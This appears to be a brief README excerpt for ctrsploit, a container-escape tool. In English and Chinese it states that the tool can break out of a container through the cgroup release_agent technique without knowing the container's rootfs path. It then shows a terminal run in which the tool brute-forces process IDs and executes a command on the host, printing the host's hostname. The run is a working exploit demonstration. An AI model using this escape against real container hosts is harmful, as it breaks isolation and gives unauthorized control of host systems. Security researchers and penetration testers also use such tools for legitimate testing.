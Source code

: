 if we do not know the rootfs of container, ctrsploit can still escape by release agent tech

如果我们不知道容器rootfs在宿主机上的路径，我们仍然可以完成逃逸

```
[root@container /]# ./ctrsploit e ra3 -c "cat /etc/hostname"
INFO[0000] trying 100                                   
INFO[0000] trying 200                                   
INFO[0000] trying 300                                   
INFO[0000] trying 400                                   
INFO[0000] trying 500                                   
...
INFO[0017] trying 11700                                 
INFO[0017] found /output140128693, success              
INFO[0018] 
===========start of result==============
cce-arm-euler28-30231
===========end of result============== 
```